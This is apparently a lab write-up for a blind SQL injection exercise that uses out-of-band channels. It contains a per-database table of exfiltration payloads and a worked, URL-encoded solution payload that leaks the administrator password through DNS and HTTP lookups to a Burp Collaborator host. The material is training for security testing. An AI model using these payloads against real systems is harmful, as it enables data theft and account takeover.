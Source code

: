 **<h2>Background:</h2>**
Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
``'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--``

This input reads the password for the **_Administrator_** user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:
``S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net``

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. 
>For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

<table>
        <thead>
            <tr>
                <th>Database</th>
                <th>Query</th>
            </tr>
        </thead>
        <tbody>
            <tr>
                <td>Oracle</td>
                <td><code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code></td>
            </tr>
            <tr>
                <td>Microsoft</td>
                <td><code>declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')</code></td>
            </tr>
            <tr>
                <td>PostgreSQL</td>
                <td><code>create OR replace function f() returns void as $$ 
                declare c text; declare p text; begin 
                SELECT into p (SELECT YOUR-QUERY-HERE); 
                c := 'copy (SELECT '''''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN'''; execute c; 
                END; $$ language plpgsql security definer; SELECT f();</code></td>
            </tr>
            <tr>
                <td>MySQL</td>
                <td><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\\\BURP-COLLABORATOR-SUBDOMAIN\\a'</code></td>
            </tr>
        </tbody>
    </table>


**<h2>Problem:</h2>**
The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called **_users_**, with columns called **_username_** and **_password_**. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

**<h2>Solution:</h2>**
- The application is vulnerable to OAST so proceeding with checking the password using
``'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'0rsqsimpzddepfqy02ebwiyrhin9b1zq.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--``
After polling and waiting for few seconds we get:
![alt text](/images/lab17queryop.png)
- We got DNS and HTTP output, interacting through them we see password is concatenated with the domain name.
![alt text](/images/lab17password.png)
- Copy preceedings of the domain name and login as administrator to solve the lab
